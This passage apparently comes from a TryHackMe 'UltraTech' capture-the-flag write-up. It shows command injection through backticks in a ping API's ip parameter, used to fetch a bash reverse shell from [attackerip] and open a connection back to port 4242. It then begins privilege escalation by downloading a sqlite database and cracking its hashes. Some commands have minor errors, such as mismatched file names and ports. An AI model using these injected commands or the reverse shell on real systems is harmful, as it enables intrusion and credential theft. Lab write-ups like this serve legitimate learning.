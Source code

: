 To exploit this, I created a file called `shell.sh` with the following content. I made the file accessible by spawning an HTTP server using python:
```bash
cat shell.sh                                                                                              
  #!/bin/bash
  bash -i >& /dev/tcp/[attackerip]/4242 0>&1
```

By navigating to the following two URLs, I was able to upload my bash script and execute it. 
```bash
http://10.10.77.78:8081/ping?ip=`wget http://[attackerip]/shell.sh -o shell.sh`

http://10.10.77.78:8081/ping?ip=`bash%20rev.sh`
```

After the second command, my Netcat listener received the connection. I tried several ports like 4444 and 9001 but succeeded only with 4242.
```bash
$ nc -lvnp 4242
listening on [any] 444 ...
connect to [attackerip] from (UNKNOWN) [10.10.77.78] 44136
bash: cannot set terminal process group (1236): Inappropriate ioctl for device
bash: no job control in this shell
www@ultratech-prod:~/api$
```

I performed shell stabilization and moved on. 

## Privilege Escalation r00t

After gaining initial access, I had access to the user `www`. I analyzed the user's home directory and found the API source code and the corresponding database. The database was a sqlite file, which I downloaded and opened using SQLite Browser.

![SQLite Database](/assets/img/tryhackme/UltraTech/thm_ultratech_3.jpg)

The database contained two hash values. Since the user `r00t` was also present on the machine, I attempted to look up the hash using Crackstation:

![Crackstation](/assets/img/tryhackme/UltraTech/thm_ultratech_4.jpg)
